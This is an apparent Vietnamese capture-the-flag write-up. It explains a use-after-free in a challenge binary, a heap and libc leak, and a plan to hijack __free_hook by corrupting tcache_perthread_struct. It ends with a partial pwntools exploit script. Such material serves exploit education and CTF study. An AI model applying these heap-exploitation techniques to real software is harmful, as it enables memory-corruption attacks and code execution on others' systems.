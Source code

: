 Nếu ta chọn write vào index i chứa con trỏ trỏ đến địa chỉ 0x000055b3545de180 thì đầu tiên chương trình sẽ free heap chunk ở hình trên (0x000055b3545de180), sau đó sẽ lưu trữ con trỏ mới vào đúng vị trí là forward pointer của chunk đã được free (0x000055b3545de180), vậy forward pointer đã được sửa đổi theo ý mình -> arbitrary write.

#### Leak libc?

Cách leak đơn giản nhưng hơi chày cối, cấp phát liên tục các chunk có size 0x40 để khi tạo đủ size 0x400 hoặc lớn hơn tùy ý, lúc free sẽ bị đưa vào unsortedbin vì 0x400 đã lớn hơn size của tcache.

#### Hijack __free_hook rồi spawn shell một cách dễ dàng?

Sau khi sử dụng lỗi use-after-free trên thì ta đã có thể có quyền write vào __free_hook? Cũng không hẳn là vậy, vì mỗi lần loop chương trình chỉ free tối đa 1 lần, có nghĩa là tcache chỉ nhận tối đa 1 chunk ở trong tcache bins. Để có thể tiếp tục sử dụng thêm chunk ở trong tcache bins (các entry trong tcache_perthread_struct) ta có thể free 1 fake chunk có size 0x290 sau đó free chunk tcache_perthread_struct có size 0x290 ở đầu heap sector, lúc này forward pointer sẽ ghi đè lên entry count của chunk size 0x40.

#### Một ý tưởng khác?

Trong quá trình làm mình có nghĩ đến một idea hơn điên khùng, đó là unsortedbin attack ghi đè main_arena lên entry của chunk size 0x40 ở tcache_perthread_struct, rồi sửa địa chỉ của top-chunk về lại tcache_perthread_struct để sửa entry của chunk size 0x40 thành __free_hook. Nhưng rồi quên mất lên libc-2.31 thì unsortedbin attack không còn available nữa... 🥺

Bạn có thể debug script sau nếu chưa hiểu rõ những ý tưởng mình trình bày ở trên :
```python
from pwn import *

BEDUG = True

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

if BEDUG == True:
    io = process('./ruby')#, env={"LD_PRELOAD":"./libc.so.6"})
    gdb.attach(io)
else:
    io = remote()

io.sendlineafter(b' methods: ', b'2147483647')
def w(idx, dat):
    io.sendlineafter(b')> ', b'1')
    io.sendlineafter(b'Index: ', str(idx).encode('utf-8'))
    io.sendafter(b'Your data: ', dat)

def c(idx):
    io.sendlineafter(b')> ', b'2')
    io.sendlineafter(b'Index: ', str(idx).encode('utf-8'))

w(0, p64(0)*3+b'\x41\n')
w(1, p64(0)*3+b'\x41\n')
w(3, b'\n')
c(0)
heap = u64(io.recv(6)+b'\0\0') - 0x340
log.info('Heap: '+hex(heap))
cnt = 0
w(4, b'\n')
cnt+=1

for i in range(19, 26):
    w(i, str(i).encode('utf-8')+b'\n')
    cnt+=1

for i in range(27, 34):
    w(i, str(i).encode('utf-8')+b'\n')
```